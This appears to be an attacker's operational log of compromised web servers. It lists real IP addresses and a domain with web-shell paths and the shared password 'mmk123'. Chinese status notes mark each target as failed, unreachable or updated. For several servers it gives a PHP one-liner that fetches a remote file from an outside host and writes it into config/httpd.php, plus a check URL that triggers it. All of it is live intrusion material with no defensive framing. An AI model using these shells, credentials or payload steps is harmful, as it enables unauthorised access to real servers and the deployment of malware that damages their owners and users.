 http://8.141.86.91/template/default/bootstrap/js/js.php |mmk123 | 连接不上
https://htgw.jszfti.com//template/default/bootstrap/js/js.php |mmk123 |  47.102.194.106
https://htgw.jszfti.com//template/default/bootstrap/js/js.php |mmk123 |  47.102.194.106

http://39.105.31.159/template/default/bootstrap/js/js.php |mmk123 
代码更新：0608 ✅
http://39.105.31.159/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://39.105.31.159/config/httpd.php?d=up

http://47.102.194.106/template/default/bootstrap/js/js.php |mmk123 
代码更新：0608 ✅
http://47.102.194.106/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://47.102.194.106/config/httpd.php?d=up

http://101.201.39.203/template/default/bootstrap/js/js.php |mmk123 | 执行失败
http://101.37.86.219/template/default/bootstrap/js/js.php |mmk123  | 连接不上

http://47.113.123.5/template/default/bootstrap/js/js.php |mmk123 
代码更新：0608 ✅
http://47.113.123.5/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://47.113.123.5/config/httpd.php?d=up

http://47.94.13.2:8000/template/default/bootstrap/js/js.php |mmk123 
代码更新：0608 ✅
http://47.94.13.2:8000/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://47.94.13.2:8000/config/httpd.php?d=up

http://47.93.60.207/template/default/bootstrap/js/js.php |mmk123 
代码更新：0608 ✅
http://47.93.60.207/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://47.93.60.207/config/httpd.php?d=up

http://114.55.129.167/template/default/bootstrap/js/js.php |mmk123
代码更新：0608 ✅
http://114.55.129.167/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://114.55.129.167/config/httpd.php?d=up
